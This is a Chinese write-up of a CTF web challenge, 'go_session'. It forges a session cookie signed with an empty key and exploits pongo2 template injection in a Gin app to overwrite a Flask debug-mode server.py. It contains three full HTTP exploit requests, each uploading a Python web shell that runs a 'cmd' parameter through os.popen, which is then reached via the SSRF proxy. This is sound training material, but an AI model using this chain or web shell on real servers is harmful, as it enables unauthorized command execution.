2、`text/template`在模板处理阶段还定义`template.HTMLEscapeString`等转义函数

3、使用另一个模板包`html/template`，自带转义效果

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118160538-429fc878-85e9-1.png)

- - -

#### **二、题目复现**

下载题目的附件，是用go的gin框架写的后端，cookie-session是由gorilla/sessions来实现，而sessions库使用了另一个库：gorilla/securecookie来实现对cookie的安全传输。这里所谓的安全传输，是指保证cookie中的值不能被看出来（通过加密实现，可选）、保证传输的cookie不会被篡改。

securecookie的编码函数一共有四个主要步骤来实现这一目的：

-   序列化，cookie的值可以有多种形式，首先将其序列化为字节切片，方便后续操作。
-   加密（这一步是可选的），使用指定的对称加密方法、加密密钥，进行对value进行加密。
-   计算MAC值，以保证不被篡改，这里的MAC是Message Authentication Code的缩写。如何计算呢，通过指定的哈希函数来计算，对上述的加密后的value求一个摘要。
-   base64编码：当解密时，反过来即可，因为上述用于加密的方法与加密密钥、用于认证的哈希方法与哈希密钥，都是在服务器端设置的。准确来说就是由这个securecookie库的SecureCookie接口所规定的，通过加密密钥与认证密钥，保证了cookie不会被解密、不会被篡改的两个目的。

**代码审计**

```plain
package route

import (
    "html"
    "io"
    "net/http"
    "os"

    "github.com/flosch/pongo2/v6"
    "github.com/gin-gonic/gin"
    "github.com/gorilla/sessions"
)

// 创建一个用于会话管理的新的Cookie存储
var store = sessions.NewCookieStore([]byte(os.Getenv("SESSION_KEY")))

// Index处理根路径("/")的请求
func Index(c *gin.Context) {
    // 获取指定名称的会话
    session, err := store.Get(c.Request, "session-name")
    if err != nil {
        // 如果获取会话时出现错误，则返回一个内部服务器错误
        http.Error(c.Writer, err.Error(), http.StatusInternalServerError)
        return
    }

    // 检查会话是否没有 "name" 值
    if session.Values["name"] == nil {
        // 将 "name" 值设置为 "guest"
        session.Values["name"] = "guest"
        // 将会话保存到请求和响应中
        err = session.Save(c.Request, c.Writer)
        if err != nil {
            // 如果保存会话时出现错误，则返回一个内部服务器错误
            http.Error(c.Writer, err.Error(), http.StatusInternalServerError)
            return
        }
    }

    // 返回一个包含消息 "Hello, guest" 的响应
    c.String(200, "Hello, guest")
}

// Admin处理 "/admin" 路径的请求
func Admin(c *gin.Context) {
    // 获取指定名称的会话
    session, err := store.Get(c.Request, "session-name")
    if err != nil {
        // 如果获取会话时出现错误，则返回一个内部服务器错误
        http.Error(c.Writer, err.Error(), http.StatusInternalServerError)
        return
    }

    // 检查会话的 "name" 值是否为 "admin"
    if session.Values["name"] != "admin" {
        // 如果不是 "admin"，则返回一个内部服务器错误
        http.Error(c.Writer, "N0", http.StatusInternalServerError)
        return
    }

    // 获取查询参数中的 "name" 值，默认为 "ssti"
    name := c.DefaultQuery("name", "ssti")
    // 对 "name" 值进行HTML转义处理(此处以防止跨站脚本攻击（XSS）)
    xssWaf := html.EscapeString(name)
    // 使用字符串模板创建一个新的模板对象
    tpl, err := pongo2.FromString("Hello " + xssWaf + "!")
    if err != nil {
        // 如果创建模板对象时出现错误，则引发panic
        panic(err)
    }
    // 执行模板并传递上下文参数，将结果赋给out变量
    out, err := tpl.Execute(pongo2.Context{"c": c})
    if err != nil {
        // 如果执行模板时出现错误，则返回一个内部服务器错误
        http.Error(c.Writer, err.Error(), http.StatusInternalServerError)
        return
    }
    // 返回包含out的响应
    c.String(200, out)
}

// Flask处理请求 "/flask" 路径的请求
func Flask(c *gin.Context) {
    // 获取指定名称的会话
    session, err := store.Get(c.Request, "session-name")
    if err != nil {
        // 如果获取会话时出现错误，则返回一个内部服务器错误
        http.Error(c.Writer, err.Error(), http.StatusInternalServerError)
        return
    }

    // 检查会话的 "name" 值是否为nil
    if session.Values["name"] == nil {
        // 如果为nil，则返回一个内部服务器错误
        if err != nil {
            http.Error(c.Writer, "N0", http.StatusInternalServerError)
            return
        }
    }

    // 发送HTTP请求到指定的URL（在本例中是"http://127.0.0.1:5000/" + 查询参数中的"name"值，默认为"guest"）
    resp, err := http.Get("http://127.0.0.1:5000/" + c.DefaultQuery("name", "guest"))
    if err != nil {
        return
    }
    defer resp.Body.Close()
    // 读取响应的主体内容
    body, _ := io.ReadAll(resp.Body)

    // 返回包含响应主体内容的响应
    c.String(200, string(body))
}
```

**题目解析**

```plain
var store = sessions.NewCookieStore([]byte(os.Getenv("SESSION_KEY")))
```

> `os.Getenv` 是 Go 语言中用于获取环境变量值的函数，如果环境变量不存在，则返回空字符串。

使用环境变量 "SESSION\_KEY" 的值作为会话密钥，但因为并没有环境变量，因此可以得知"SESSION\_KEY" 为空值。

```plain
func Index(c *gin.Context) {
    session, err := store.Get(c.Request, "session-name")
...
    if session.Values["name"] == nil {
        session.Values["name"] = "guest"
        err = session.Save(c.Request, c.Writer)
...
...
func Admin(c *gin.Context) {
...
    session, err := store.Get(c.Request, "session-name")
...
    if session.Values["name"] != "admin" {
        http.Error(c.Writer, "N0", http.StatusInternalServerError)
        return
    }
...
}
```

通过这两段源码，可以想出，利用index源码，在本地伪造session-name = admin ，进行欺骗，进而访问`/admin`路由。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118160620-5b5a3fec-85e9-1.png)

bp抓包改包，将本地运行的session-name，进行替换

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118160633-63793c50-85e9-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118160656-70e4f244-85e9-1.png)

接下来，通过代码审计，可以可能存在pongo2的ssti

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118160712-7a76e600-85e9-1.png)

从代码中可以看到，我们把`c *gin.Context`传送给模板引擎，所以在ssti时可以使用`c *gin.Context`这一变量。

参考文档:

[https://github.com/flosch/pongo2](https://github.com/flosch/pongo2)

[https://pkg.go.dev/github.com/gin-gonic/gin](https://pkg.go.dev/github.com/gin-gonic/gin)

[https://django.readthedocs.io/en/1.7.x/topics/templates.html](https://django.readthedocs.io/en/1.7.x/topics/templates.html)

[https://www.kancloud.cn/shuangdeyu/gin\_book/949420](https://www.kancloud.cn/shuangdeyu/gin_book/949420)

以及这篇博客

[https://www.imwxz.com/posts/2b599b70.html#template%E7%9A%84%E5%A5%87%E6%8A%80%E6%B7%AB%E5%B7%A7](https://www.imwxz.com/posts/2b599b70.html#template%E7%9A%84%E5%A5%87%E6%8A%80%E6%B7%AB%E5%B7%A7)

go只允许访问传入对象下的属性和方法，那么就可以从c \*gin.context入手

> **`c *gin.Context`的使用**
> 
> [https://pkg.go.dev/github.com/gin-gonic/gin#pkg-index](https://pkg.go.dev/github.com/gin-gonic/gin#pkg-index)
> 
> 因此可以得到，文件读取的payload：
> 
> ```plain
>  #通过请求头的Referer
>   #通过请求头的Host
>   #通过?ip\_add=/app/server.py读取
> ```
> 
> 写文件的payload
> 
> ```plain
> {{c.SaveUploadedFile(c.FormFile(c.Request.Host),c.Request.Referer())}}
>  
>  
>  {{c.SaveUploadedFile(c.FormFile(form),c.Request.Referer())}}&m=file
>  
>  {{c.SaveUploadedFile(file,path)}}&m=file&n=/app/server.py
> ```
> 
> 这三个payload其实大同小异，只是后两个使用了过滤器（c.HandlerName的值为 main/route.Admin ）

并且 go的template只允许调用1个返回值，或者2个返回值并且第二个返回值为error类型的函数 形如a(res)或者a(res,err)  
看gin.Context下的几个不需要传参的函数，这里几个函数都能拿到字符串，然后将字符串放在请求参数上面可以获取任意字符串

> 源码：[https://github.com/gin-gonic/gin/blob/master/context.go](https://github.com/gin-gonic/gin/blob/master/context.go)

```plain
总结
func (c *Context) HandlerName() string {
    return nameOfFunction(c.handlers.Last())
}
// 结果：main/route.Admin ，可以得到m,n
func (c *Context) FullPath() string {
    return c.fullPath
}
// 这个结果为/admin，first之后是'/'，与传参冲突
func (c *Context) ClientIP() string {}
// 结果：10.0.0.1，首尾字符串结果一样，不采用
func (c *Context) RemoteIP() string {}
// 同上
func (c *Context) ContentType() string{}
// 因为要上传文件，所以不能改ContentType
```

因此可以用`HandlerName()`，再参考BytesCtf2021 babyweb，通过`gin.context`下的`FormFile`和`SaveUploadFile`函数进行文件上传

> ```plain
> func (c *Context) FormFile(name string) (*multipart.FileHeader, error)
> func (c *Context) SaveUploadedFile(file *multipart.FileHeader, dst string) error
> ```
> 
> 第一个可以获取指定名称的上传文件，而第二个可以保存上传的文件到特定目录，这两个函数都在符合template的调用格式，而结合在一起我们便可以覆盖任意文件上传了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118160738-89f53f82-85e9-1.png)

通过分析这段代码，这里可以利用报错信息泄露的源码

```plain
http://9b5368bd-357c-4442-843d-35aa9ac4120b.challenge.ctf.show/flask?name=
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118160750-9160a5b8-85e9-1.png)

此处不太方便代码审计，可以放到自己的本地网站里渲染一下，可以看到python源码和路径，并且发现开启了debug模式。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118160805-9a555b46-85e9-1.png)

flask 开了 debug 模式后, 在 debug 模式下 flask 会动态更新源码的内容“热更新”，所以思路是通过 `FormFile`和 `SaveUploadedFile`上传文件覆盖掉之前的 flask 源码。

> debug攻击点一般采用算pin和debug热加载，这里尝试过算pin发现不能携带cookie，不能直接命令执行，所以使用热加载。

最后因为模版编译前会通过 html 编码把单双号转义, 所以需要换个方式传入字符串，发现 `gin.Context`里面包装了 `Request`和 `ResponseWriter`, 这里随便找了个 `Request.UserAgent()`

```plain
// UserAgent returns the client's User-Agent, if sent in the request.
func (r *Request) UserAgent() string {
    return r.Header.Get("User-Agent")
}
```

文件上传server.py覆盖原来的代码，然后访问修改后的路由，flask在处理的时候发现内存中的代码和源码中不同则会自动重启，这样我们就能构造恶意代码了

最终 payload

```plain
/admin?name={{c.SaveUploadedFile(c.FormFile(c.ClientIP()),c.Query(c.ClientIP()))}}&自己的ip=/app/server.py HTTP/1.1 //自己的ip可以通过模板注入{{c.ClientIP()}}查看
Host: 40802932-2116-47e3-8daa-197a8c7f52d7.challenge.ctf.show
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrxtSm5i2S6anueQi
User-Agent:  /app/server.py
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _ga=GA1.2.302713316.1678960921; session-name=MTY5MDc3MzU2MHxEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV0ZrYldsdXzuHa5qg0Ih9XrL5lJnL_2P1GR4TmLkG4O6giX1tuQtxQ==
Upgrade-Insecure-Requests: 1
Content-Length: 545

------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="/app/server.py"; filename="server.py"
Content-Type: text/plain

from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/shell')
def shell():
    cmd = request.args.get('cmd')
    if cmd:
        return os.popen(cmd).read()
    else:
        return 'shell'

if __name__== "__main__":
    app.run(host="127.0.0.1",port=5000,debug=True)
------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="submit"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118160824-a546fd66-85e9-1.png)

成功上传之后，访问/flask路由

```plain
http://40802932-2116-47e3-8daa-197a8c7f52d7.challenge.ctf.show/flask?name=/shell?cmd=ls$IFS/
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118160837-ad2f4128-85e9-1.png)

直接cat即可

**payload 2**

```plain
{{c.SaveUploadedFile(c.FormFile(c.ClientIP()),c.Query(c.ClientIP()))}}
#或者
{{c.SaveUploadedFile(c.FormFile(c.Request.Host),c.Request.Referer())}}
```

最终payload

```plain
GET /admin?name={{c.SaveUploadedFile(c.FormFile(c.Request.UserAgent()),c.Request.UserAgent())}} HTTP/1.1
Host: 40802932-2116-47e3-8daa-197a8c7f52d7.challenge.ctf.show
Pragma: no-cache
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrxtSm5i2S6anueQi
User-Agent: Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Mobile Safari/537.36 Edg/113.0.1774.50
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _ga=GA1.2.302713316.1678960921; session-name=MTY5MDc3MzU2MHxEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV0ZrYldsdXzuHa5qg0Ih9XrL5lJnL_2P1GR4TmLkG4O6giX1tuQtxQ==
Upgrade-Insecure-Requests: 1
Content-Length: xxx

------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name=自己ip; filename="server.py"
Content-Type: text/x-python

from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/shell')
def shell():
    cmd = request.args.get('cmd')
    if cmd:
        return os.popen(cmd).read()
    else:
        return 'shell'

if __name__== "__main__":
    app.run(host="127.0.0.1",port=5000,debug=True)
------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="submit"
```

**payload 3**

```plain
GET /admin?name={{c.SaveUploadedFile(c.FormFile(c.Request.Host),c.Request.Referer())}} HTTP/1.1
Host: 40802932-2116-47e3-8daa-197a8c7f52d7.challenge.ctf.show
Cache-control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrxtSm5i2S6anueQi
User-Agent: Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Mobile Safari/537.36 Edg/113.0.1774.50
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
application/signed-exchange;v=b3;q=0.7
Referer: /go_session/python/server.py
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _ga=GA1.2.302713316.1678960921; session-name=MTY5MDc3MzU2MHxEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV0ZrYldsdXzuHa5qg0Ih9XrL5lJnL_2P1GR4TmLkG4O6giX1tuQtxQ==
Upgrade-Insecure-Requests: 1
Content-Length: xxx

------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name=file; filename="server.py"
Content-Type: text/plain

from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/shell')
def shell():
    cmd = request.args.get('cmd')
    if cmd:
        return os.popen(cmd).read()
    else:
        return 'shell'

if __name__== "__main__":
    app.run(host="127.0.0.1",port=5000,debug=True)
------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="submit"
```

参考文章：  
[https://ctf.njupt.edu.cn/archives/898](https://ctf.njupt.edu.cn/archives/898)  
[https://www.imwxz.com/posts/2b599b70.html#template%E7%9A%84%E5%A5%87%E6%8A%80%E6%B7%AB%E5%B7%A7](https://www.imwxz.com/posts/2b599b70.html#template%E7%9A%84%E5%A5%87%E6%8A%80%E6%B7%AB%E5%B7%A7)  
[https://forum.butian.net/share/1286](https://forum.butian.net/share/1286)  
[https://zhuanlan.zhihu.com/p/628060790](https://zhuanlan.zhihu.com/p/628060790)
